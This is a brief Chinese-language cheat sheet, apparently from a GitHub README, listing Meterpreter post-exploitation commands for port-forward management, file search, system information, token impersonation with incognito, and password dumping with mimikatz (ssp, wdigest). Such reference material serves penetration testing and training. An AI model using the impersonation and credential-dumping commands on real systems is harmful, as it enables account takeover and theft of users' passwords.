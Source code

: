 ### 删除端口转发
```
portfwd delete -l <端口号> -p <端口号> -r <目标IP>   
```
  如果你想显示所有端口转发记录，你可以使用`portfwd list`命令，如果你想删除所有的记录，可以使用`portfwd flush`命令
<br>
<br>
### 文件搜索
```
search -f *.txt(文件名称)
```
### 获取用户ID
```
getuid
```
### 获取系统信息
```
sysinfo
```
### 模拟任意用户(token操作)

```
use incognito
list_tokens -u
impersonate_token “Machine\\user”
```
### 抓取密码和获取密码
```
load mimikatz              \\使用load mimikatz加载mimikatz模块
```
```
ssp       \\抓取密码
wdigest    \\用户储存在内存里的明文密码。
```
![](img/3.png)
''x
